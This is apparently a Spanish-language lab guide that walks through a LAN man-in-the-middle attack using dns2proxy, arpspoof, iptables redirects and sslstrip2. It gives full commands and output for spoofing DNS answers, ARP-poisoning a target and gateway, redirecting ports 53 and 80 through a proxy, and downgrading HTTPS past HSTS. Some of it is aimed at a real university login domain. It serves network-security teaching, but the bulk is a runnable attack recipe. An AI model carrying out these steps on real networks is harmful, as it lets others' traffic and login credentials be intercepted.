


# Lab1: byt3bl33d3r/sslstrip2 + singe/dns2proxy

## Requerimientos

* /sslstrip2
* dns2proxy


Ambas herramientas orginalemente son de [@LeonardoNve](https://github.com/LeonardoNve), pero sslstrip2 ha sido borrado por la ley GAG de España:
> Cause the new gag law which criminalized the publication of 'offensive' security tools/techniques I have to delete this repository. You can find good forks on MITMf framework (https://github.com/byt3bl33d3r/MITMf) or MANA rogue AP (https://github.com/sensepost/mana).


```plaintext
moxie0/sslstrip
 └─LeonardoNve/sslstrip2
    ├─singe/sslstrip2
    |  └─Samega7Cattac/sslstrip2 (Soporte Python 3)
    |      └─FredyRosero/sslstrip2-py3
    └─byt3bl33d3r/sslstrip2        
LeonardoNve/dns2proxy
 └─mh4x0f/dns2proxy3 (Soporte Python 3)
    └─FredyRosero/dns2proxy3 
```
<!-- https://arthursonzogni.com/Diagon/#Tree -->


\* La versión [@TimTelfer/sslstrip2](https://github.com/TimTelfer/sslstrip2) tiene un [filtro interesante](https://github.com/TimTelfer/sslstrip2/commit/aba2e917e401b268fcb2abc7eb22c8c0f361656b) para [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)


## 1. Entorno virtual

Python 2
```shell
sudo apt update -y
sudo apt install -y python2.7 python2-dev virtualenv libpcap-dev
```

Python 3

```shell
sudo apt update -y
sudo apt install -y python3-dev libpcap-dev
```

### virtualenv

```shell
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
sudo python2 get-pip.py
pip2 install virtualenv
```

```shell
virtualenv -p python2.7 lab1
```

```shell
source lab1/bin/activate
```

```shell
$ python --version
Python 2.7.18
```

### pyenv python 2

```shell
pyenv install 2.7.18 -v
```

```shell
pyenv virtualenv 2.7.18 
```

```shell
pyenv activate  2.7.18 lab1
```

```shell
pyenv deactivate 
```


### pyenv python 3


```shell
pyenv install 3.8.10 -v
```

```shell
pyenv virtualenv 3.8.10 lab1-3
```

```shell
pyenv activate lab1-3
```


```shell
pyenv deactivate 
```


## Requerimientos del entorno

```shell
sudo pip install dnspython pcapy  #dns2proxy
sudo pip install twisted pyOpenSSL service_identity clientRequest #sslstrip2
```

## Dns2proxy

Una respuesta DNS legítima

```shell
$ nslookup uqbarun.github.io
Server:         127.0.0.53
Address:        127.0.0.53#53

Non-authoritative answer:
Name:   uqbarun.github.io
Address: 185.199.110.153
Name:   uqbarun.github.io
Address: 185.199.108.153
...
```

Obtenemos la herramienta
```shell
git clone https://github.com/FredyRosero/dns2proxy3.git
cd dns2proxy3
```

Configuramos una falsificación para que responda con la IP de <wwww.google.com>
```shell
echo "uqbarun.github.io 142.250.78.100" > spoof.cfg  
```

### Primera prueba de Dns2proxy local

Lanzamos el servidor DNS. Notemos que dice que no falsificará respuestas en *loopback*
```shell
$ sudo python dns2proxy.py 
Non spoofing to 127.0.0.1
Specific host spoofing uqbarun.github.io with 142.250.78.100
Specific domain IP .domain.com with 8.8.9.9
Specific domain IP .thisisalongdomainnameasdfasdfafsd.com with 178.62.64.250
DNS Forwarding activado....
binded to UDP port 53.
waiting requests.
```

Pero si en las demás interfaces. 
```shell
$ ip link 
$ ip a s enp3s0f0 | grep inet
    inet 192.168.1.101/24 brd 192.168.1.255 scope global dynamic noprefixroute enp3s0f0
$ IP_ATACANCATE=192.168.1.101
```

Comprobamos el puerto con lsof
```shell
sudo lsof -i :53
```

o con nmap
```shell
$ sudo nmap -sU -T5 -p53 $IP_ATACANCATE
Starting Nmap 7.80 ( https://nmap.org ) at 2023-06-12 16:15 -05
Nmap scan report for 192.168.1.101 (192.168.1.101)
Host is up (0.053s latency).

PORT   STATE SERVICE
53/udp open  domain

Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds
```


La respuesta falsificando la resolución de nombre
```shell
$ nslookup uqbarun.github.io 192.168.1.101               
Server:         192.168.1.101
Address:        192.168.1.101#53

Name:   uqbarun.github.io
Address: 142.250.78.100
** server can't find uqbarun.github.io: NXDOMAIN
```

Y la salida de depuración de la herramienta
```shell
$ sudo python dns2proxy.py 
...
serving a request.
('C', '\xbb')
msg id = CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC�
Client IP: 192.168.1.101
request is uqbarun.github.io. IN A
Doing the A query....
1 questions.
q name = uqbarun.github.io
Query = uqbarun.github.io A
Adding fake IP = 142.250.78.100
waiting requests.
serving a request.
('\x91', '_')
msg id = ����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������_
Client IP: 192.168.1.101
request is uqbarun.github.io. IN AAAA
waiting requests.
```

### Primera prueba de Dns2proxy remota

```shell
victima$ ip a s enp3s0f0 | grep inet
    inet 192.168.1.101/24 brd 192.168.1.255 scope global dynamic noprefixroute enp3s0f0
```
La respuesta falsificando la resolución de nombre
```shell
victima$ nslookup uqbarun.github.io 192.168.1.101               
Server:         192.168.1.101
Address:        192.168.1.101#53

Name:   uqbarun.github.io
Address: 142.250.78.100
** server can't find uqbarun.github.io: NXDOMAIN
```




## Suplantar el DNS primario con ARPspoof



```shell
git clone https://github.com/byt3bl33d3r/arpspoof.git
cd arpspoof
```

```shell
OBJETIVO=192.168.1.100 
GATEWAY=192.168.1.1
NIC=enp3s0f0
sudo python3 arpspoof/arpspoof.py -i $NIC -t $OBJETIVO $GATEWAY 
```


## Redirección de puerto 53

```shell
sudo sysctl net.ipv4.ip_forward=1
sudo iptables --flush
sudo iptables --flush -t nat
sudo iptables -t nat -A PREROUTING -p udp --destination-port 53 -j REDIRECT --to-port 53
sudo iptables -t nat -L -n -v
```

donde 

1. `-t nat`: 

2. `-A PREROUTING`: 

3. `-p udp`: 

4. `--destination-port 53`: 

5. `-j REDIRECT`: 

6. `--to-port 53`: 


```shell
$ sudo ss -tulpn | grep 53
udp    UNCONN   0        0                 0.0.0.0:53             0.0.0.0:*      users:(("python",pid=545823,fd=3))  
udp     UNCONN   0        0           127.0.0.53%lo:53               0.0.0.0:*       users:(("systemd-resolve",pid=1329,fd=12)) 
```

<https://www.linuxuprising.com/2020/07/ubuntu-how-to-free-up-port-53-used-by.html>

## Prueba DNSspoofing para LAN

```shell
victima$ nslookup login.unal.edu.co
victima$ ping login.unal.edu.co
```

```shell
atacante$ sudo tcpdump -n "src or dst host 192.168.1.102 and dst port 53 or src port 53" | grep login.unal.edu.co
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on enp3s0f0, link-type EN10MB (Ethernet), capture size 262144 bytes
05:08:46.636065 IP 192.168.1.102.48865 > 8.8.8.8.53: 45576+ AAAA? login.unal.edu.co. (35)
05:08:49.211907 IP 192.168.1.102.42197 > 8.8.8.8.53: 3208+ A? login.unal.edu.co. (35)
```

## SSLStrip+

> This is a new version of [Moxie´s SSLstrip] (http://www.thoughtcrime.org/software/sslstrip/) with the new feature to avoid HTTP Strict Transport Security (HSTS) protection mechanism.
> This version changes HTTPS to HTTP as the original one plus the hostname at html code to avoid HSTS. Check my slides at BlackHat ASIA 2014 [OFFENSIVE: EXPLOITING DNS SERVERS CHANGES] (http://www.slideshare.net/Fatuo__/offensive-exploiting-dns-servers-changes-blackhat-asia-2014) for more information.
> For this to work you also need a DNS server that reverse the changes made by the proxy, you can find it at https://github.com/LeonardoNve/dns2proxy.


```shell
PUERTO_SSLSTRIP=9000
sudo python sslstrip.py --listen $PUERTO_SSLSTRIP --all --write log.txt
```
donde

1. `--listen` o `-l` es el puerto en el que sslstrip2 recibirá el tráfico.

2. `--all` o `-a` indica en nivel de loogin en depuración.

3. `--write` o `-w` indica el archivo de salida del log.


### Redirección de puerto 80

El comando `iptables` es utilizado para administrar las reglas del firewall en Linux.

```shell
$ sudo iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port $PUERTO_SSLSTRIP
$ sudo iptables -t nat -L -n -v
sudo: unable to resolve host local: Name or service not known
Chain PREROUTING (policy ACCEPT 8 packets, 477 bytes)
 pkts bytes target     prot opt in     out     source               destination         
   91  6170 REDIRECT   udp  --  *      *       0.0.0.0/0            0.0.0.0/0            udp dpt:53 redir ports 53
    2   120 REDIRECT   tcp  --  *      *       0.0.0.0/0            0.0.0.0/0            tcp dpt:80 redir ports 9000
```
Donde

1. `-t nat`: 

2. `-A PREROUTING`: 

3. `-p tcp`: 
4. `--destination-port 80`: 

5. `-j REDIRECT`: 

6. `--to-port 9000`: 


```shell
sudo lsof -i :9000
```

